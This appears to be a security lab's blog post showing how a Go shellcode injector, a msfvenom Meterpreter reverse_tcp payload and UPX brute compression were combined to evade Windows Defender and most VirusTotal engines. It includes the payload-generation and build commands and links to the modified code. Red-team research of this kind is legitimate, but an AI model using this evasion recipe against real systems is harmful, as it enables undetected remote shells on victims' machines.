








In this blog post, we’re going to detail a cool little trick we came across on how to bypass most antivirus products to get a Metepreter reverse shell on a target host. This all started when we came across [a Github repository written in Golang](https://github.com/brimstone/go-shellcode), which on execution could inject shellcode into running processes. By simply generating a payload with msfvenom we tested it and found that it was easily detected by Windows Defender. The Meterpreter payload was generated as follows:

msfvenom -p windows/x64/meterpreter/reverse\_tcp LHOST=x.x.x.x LPORT=xxx -b \\x00 -f hex

The perk of using Go for this experiment is that it can be cross-compiled, from a Linux host for a target Windows host. The command to compile the application was:

GOOS=windows GOARCH=amd64 go build

This would produce a Go exe which would be executed from the command line, along with the shellcode the attacker wanted to inject. This was easily detected, and Windows Defender identified it as Meterpreter without any trouble. As a quick and easy bypass, we tried to compress the executable using UPX in brute mode, which repeatedly compresses it 8 times. No luck here either, as Windows Defender caught it again.

_Fig.1- Attempting to run the Go exe file with the shellcode as an argument. As you can see it was easily detected by Windows Defender. We then tried with the UPX compressed sc.exe file, which also didn’t work._

_Fig.2 - Of course, the Meterpreter session is killed as soon as the process is detected by Windows Defender._

From here we inspected the source code of the Go program. After some review, we discovered that the main.go source file could be modified to take the shellcode as a variable then compiled – instead of compiling the .exe then adding the shellcode as a command line argument.

_Fig.3 - The go-shellcode/cmd/sc/main.go source._

_Fig.4 - The modified go-shellcode/cmd/sc/main.go source, where the reference to a command line argument is substituted for a declared variable._

With these we compiled two .exe files, one to be tested without UPX compression, and one with UPX compression. Windows Defender detects the non-compressed version as soon as it touches disk, but does not detect the UPX compressed .exe with static analysis.

_Fig.5 - The .exe with no UPX compression is instantly detected as containing a Meterpreter payload by Windows Defender. No dice._

Running the custom UPX compressed .exe file is successful however, and a reverse shell is achieved!

_Fig.6 - Running the UPX compressed Go exe file is successful, and a reverse shell is achieved on the victim’s machine._

Fantastic. Let’s run it against VT to check how loud the signature for this is.

_Fig.7 - Uploading the UPX compressed Go exe file to Virus Total. Only Cybereason and Cylance detect the file as being malicious._

Only two antivirus engines are picking up that there is a malicious payload in this file, and both of them don’t specify what exactly about the upload is malicious, just that it IS malicious. The UPX compression is likely what’s triggering the alert, as UPX compression can be used to obfuscate malicious files.

_Fig.8 - UPX compression in brute mode compresses the exe file 8 times._

And that’s it! In this blog post we detailed how we modified a great Go program from Github (resource listed below) that performed shellcode injection into one that efficiently evaded most antivirus programs.

The gist for this is available [here](https://gist.github.com/JumpsecLabs/202f95f9cce1ff35f140a37de0e62f30)

Reference:

[https://github.com/brimstone/go-shellcode](https://github.com/brimstone/go-shellcode)

[https://boyter.org/posts/trimming-golang-binary-fat/](https://boyter.org/posts/trimming-golang-binary-fat/)

[https://blog.filippo.io/shrink-your-go-binaries-with-this-one-weird-trick/](https://blog.filippo.io/shrink-your-go-binaries-with-this-one-weird-trick/)
